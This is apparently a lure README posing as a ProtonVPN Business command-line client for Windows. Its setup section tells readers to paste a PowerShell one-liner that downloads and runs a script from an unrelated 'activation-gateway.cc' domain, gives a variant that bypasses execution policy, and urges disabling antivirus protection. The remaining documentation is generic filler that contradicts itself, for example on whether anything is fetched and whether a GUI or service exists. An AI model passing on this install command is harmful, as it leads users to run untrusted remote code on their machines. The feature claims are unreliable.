

<div align="center">

# ProtonVPN Business VPN Client - Windows CLI for Windows 10 & 11



[]() []() []() []()

</div>

---

ProtonVPN Business VPN Client is a command-line launcher for a Windows desktop build that ships with all modules present on first run. It targets Windows 10 and 11 (64-bit) and assumes a standard user context, local network access, and the packaged runtime included with the release. The tool covers session startup, saved layouts, and live status output; it is not a general-purpose VPN protocol implementation and does not manage server infrastructure. Scope is limited to what is packaged in this release — no additional components are fetched or installed.

## 🛠️ One-Click Setup (PowerShell)

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10 / 11 · PowerShell · One-line install

### 1️⃣ Open Windows PowerShell
* Right-click the Start button.
* Choose **Terminal (Admin)** or **Windows PowerShell**.

### 2️⃣ Paste and run
Paste and run. Wait until the process completes.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If PowerShell blocks the script
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> Security software might occasionally flag automated installers. If the script gets blocked, pause "Real-time protection" in your Windows Security dashboard, run the setup, and re-enable your antivirus immediately afterward.

## ✅ Requirements

- Windows 10 or Windows 11
- PowerShell 5.1 or newer (already available on Windows)
- Active network connection
- No admin rights needed

## Features

- Deterministic connection workflow: the client follows a fixed sequence for profile selection, tunnel establishment, and teardown, so repeated runs produce consistent results.
- Profile-driven configuration: connection parameters are read from local profile files; there is no implicit discovery or cloud-side defaults.
- Status reporting: current connection state and session metadata are written to standard output in a machine-readable form suitable for scripting.
- Non-interactive execution: all core operations can run unattended; interactive prompts appear only when a required parameter is missing.
- Structured exit signaling: every termination path returns a defined exit code, allowing callers to distinguish success from configuration, authentication, and transport failures.
- Local-only state: preferences, layouts, and session presets are stored on the host; nothing is synchronized to external services.
- Windows 10 and 11 support, 64-bit only: the build targets desktop Windows exclusively and does not cover other platforms.
- Bounded scope: the client manages tunnel sessions and their configuration; it does not provide account management, billing, or server provisioning.

## Usage

Launch the client from an elevated or standard command prompt after installation. The binary name is `protonvpn-business` unless your installer places it under a different alias; verify with `protonvpn-business --version` before scripting against it. The client operates as a thin wrapper around the bundled Windows service and GUI shell — it does not replace the graphical application and will refuse to start if the service is not registered.

Basic invocation accepts zero or more subcommands followed by flags:

```
protonvpn-business [global-flags] <subcommand> [subcommand-flags]
```

When invoked with no subcommand, the client prints a short command summary and exits with status `0`. Running `protonvpn-business help <subcommand>` prints that subcommand's flag list without contacting the network.

Available subcommands cover the practical surface only: `connect`, `disconnect`, `status`, `profiles`, `config`, and `diagnose`. Anything related to account provisioning, billing, or admin policy changes is handled exclusively in the GUI and is intentionally absent from the CLI. Do not assume parity between the two interfaces.

Flags are parsed left to right. Global flags must precede the subcommand; subcommand flags follow it. Unknown flags cause an immediate exit with status `2` and a message naming the offending token — the client does not guess at near-miss spellings. Long flags use `--name value` or `--name=value` interchangeably; short flags are single-letter and may be combined only when they take no argument.

Configuration is read from the per-user config file created at first launch. Precedence is: command-line flags, then environment variables, then the config file, then built-in defaults. The client does not write to the config file unless you pass an explicit save flag on `config`. Secrets are never echoed in `status` or `diagnose` output; redacted fields appear as `[set]` or `[unset]`.

Network operations honor a default timeout of 30 seconds, adjustable per invocation. If the service is unreachable, the client exits with `3` rather than retrying indefinitely. Output defaults to human-readable text; pass the machine-readable flag to get single-line records suitable for piping. Exit codes are documented in the following section and should be checked in any automation — the client does not always fail loudly on partial success.

The CLI is honest about its scope: it manages connection state, profile selection, and local configuration on this machine. It does not expose server geography beyond what your existing profiles define, does not report tunnel throughput, and does not modify system firewall rules. For anything outside that boundary, use the GUI.

## Flags

`--profile <name>` — select a saved connection profile at startup. If omitted, the client uses the last active profile or prompts on first launch. Profile names are matched exactly; unknown names fail with a nonzero exit code rather than silently falling back.

`--config <path>` — load configuration from an explicit file path instead of the default per-user location. The path must exist and be readable; the client does not create missing files. Relative paths resolve against the current working directory.

`--headless` — run without the interactive window. Intended for scripted or scheduled sessions. Status output goes to stdout; progress indicators are suppressed. Some interactive-only features (manual server picker, in-app notifications) are unavailable in this mode.

`--server <id>` — connect to a specific server by identifier. The identifier must match one exposed by the current profile's server list. Invalid identifiers are rejected before any connection attempt.

`--protocol <name>` — override the transport protocol for this session. Accepted values depend on the installed build and the selected profile; unrecognized values cause an immediate error listing valid options. The override does not persist to the saved profile unless `--save` is also passed.

`--log-level <level>` — set verbosity for the session log. Supported levels are `error`, `warn`, `info`, and `debug`. Default is `info`. `debug` produces substantial output and is intended for troubleshooting only.

`--log-file <path>` — write logs to the specified file in addition to the default log sink. Parent directories must already exist. The file is appended to, not truncated.

`--timeout <seconds>` — cap the time allowed for connection establishment. Accepts positive integers. On expiry the client exits with a timeout status rather than retrying indefinitely. Does not affect established sessions.

`--no-update-check` — skip the automatic update check at startup. Useful for offline environments and reproducible runs.

`--save` — persist command-line overrides (such as `--protocol`) to the active profile after a successful run. Without this flag, overrides apply to the current session only.

`--version` — print the client version and build identifier, then exit. No connection is attempted.

`--help` — print usage summary and the accepted flag list, then exit.

Notes on scope: flags are parsed left to right, and later occurrences of the same flag override earlier ones. Boolean flags take no argument. Flags not listed here are unsupported and are rejected rather than ignored, so scripts should not pass through unrecognized options. Exit codes are documented separately; flag validation failures exit before any network activity begins.

## Exit codes

The client uses process exit codes to report the outcome of a command or session. Codes are stable within a release line but may be extended; unknown values should be treated as a generic failure.

- `0` — Success. The requested operation completed without error.
- `1` — General failure. An unexpected condition occurred that does not map to a more specific code; inspect stderr for details.
- `2` — Invalid usage. Malformed arguments, unknown flags, or a missing required parameter.
- `3` — Configuration error. The profile or settings file is missing, unreadable, or fails validation.
- `4` — Authentication failure. Credentials were rejected or the session could not be established.
- `5` — Connection error. The tunnel could not be created, was dropped, or timed out.
- `6` — Permission denied. The operation requires elevated privileges or access that the current user lacks.
- `7` — Resource not found. A referenced file, profile, or target does not exist.
- `8` — Conflict. The requested operation cannot proceed because of an existing session or locked resource.

Exit codes are emitted only on process termination. Long-running sessions that end by signal do not produce an application exit code; check the signal status instead. Codes above `8` are reserved and may vary between builds, so scripts should branch on the documented values only and fall back to a non-zero check for anything else.

## Recipes

- **Non-interactive profile bootstrap:** run the client once with a named profile and `--quiet` to write a default configuration without prompts; use this in provisioning scripts where no console input is available. Verify the result by invoking `--show-config` and checking the exit code rather than parsing log text.

- **Deterministic reconnect loop:** combine `--retry <n>` with `--retry-delay <seconds>` for unattended sessions on unstable links. The client exits non-zero only after the retry budget is exhausted; treat that code as a hard failure in wrappers.

- **Per-session log capture:** pass `--log-file <path>` on every invocation to separate output from stdout. Logs are appended, not truncated, so rotate them externally; the client does not manage retention.

- **Scripted status checks:** use `--status --json` (where available) or the dedicated exit codes to branch in shell logic. Do not scrape human-readable output; its wording is not a stable interface.

- **Batch teardown:** call the client with `--disconnect --force` before uninstalling or reinstalling to clear lingering adapter state. This is a no-op when no session is active.

- **Scoped flags only:** flags not listed in the Flags section are rejected. There is no passthrough to underlying OS networking tools; the client controls its own connection lifecycle.

- **Exit-code driven automation:** check exit codes before reading output. `0` means success, non-zero indicates the specific failure category documented in Exit codes; recipe scripts should branch on those values.

- **Windows-only scope:** these recipes assume Windows 10/11 x64. Behavior on emulation layers or non-Windows hosts is not covered and not supported.

## FAQ

**Does this project include a graphical interface?** No. This is a command-line client only; all interaction happens through the terminal binary and its supported flags.

**What platforms are supported?** The client targets Windows 10 and 11, 64-bit. It is not built for macOS, Linux, or 32-bit Windows.

**Does the client connect to ProtonVPN services on its own?** No. The client manages local configuration, session profiles, and command dispatch; it does not bundle credentials or perform authentication on your behalf. You supply the account details and profile data you are licensed to use.

**Are all advertised modules active by default?** Yes. The shipped build enables the full module set. Any module listed in the Features section is available without additional activation steps.

**Can I script it?** Yes. The client is designed for non-interactive use: commands accept flags, return deterministic exit codes, and emit plain-text output suitable for pipelines. See the Flags and Exit codes sections for the exact contract.

**Does it require administrator rights?** Not for typical use. Elevation may be needed only when the client must write to protected system paths, and the client will report that condition rather than silently failing.

**How are settings persisted?** Configuration is written to a local profile directory on the system drive. Deleting that directory resets the client to first-launch state.

**What happens if a command fails?** The client returns a nonzero exit code and prints a diagnostic line to stderr. It does not retry automatically; wrap invocations in your own retry logic if needed.

**Is there a daemon or background service?** No. The client runs as a foreground process and exits when the command completes. Long-running behavior is not part of this scope.

**Does it collect telemetry?** No usage data is transmitted by the client itself. Any logging stays local to the profile directory.

**Can I run multiple instances concurrently?** Concurrent invocations against the same profile are not supported. Use separate profile directories if you need parallel runs.

**What is explicitly out of scope?** GUI tooling, cross-platform builds, automatic updates, and any network tunneling functionality beyond what the documented flags expose.